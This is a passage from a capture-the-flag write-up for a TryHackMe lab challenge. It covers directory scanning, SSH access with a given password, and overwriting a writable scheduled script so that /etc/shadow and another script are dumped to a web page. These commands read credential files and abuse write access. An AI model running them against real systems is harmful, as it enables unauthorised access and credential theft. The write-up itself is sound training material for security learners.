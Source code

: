 ![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/604f7d77-686b-45c7-bbdd-71ff055bc599)

the Documents folder also contains a Schedule.txt, see it

```
dir
type Schedule.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c865ef69-e3db-4e07-abee-6e061f5300c9)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/62c157af-f95f-4e9d-9c1d-5b95fc668bb8)

## Day 14: Dev(Insecure)Ops

dirb scan with its default wordlist

```
dirb http://10.10.98.187
```



check the webpage, it seem an iframe ls.html on /admin

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/94c87108-9f8d-4bf0-85ac-b401d8133dbb)

ssh to the machine

```
ssh mcskidy@10.10.98.187
Password1
```

on /home/thegrinch/scripts, you can see 4 script files

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f53478bf-81e5-4742-81a5-b3748f74eb82)

loot.sh seem interesting and we have write access on it

```
echo "cat /etc/shadow > /var/www/html/ls.html" > loot.sh
```

reload the /admin, we will see /etc/shadow

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1f8d229b-43c3-4638-a9e1-a09627f8a737)

let's have a look at the check.sh script 

```
echo "cat /home/thegrinch/scripts/check.sh > /var/www/html/ls.html" > loot.sh
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d4e2afbd-86b8-45fa-bc1c-801a276df610)

checks to see if remindme.txt is on /tmp/check.txt, it will print the grinch's password to pass.html
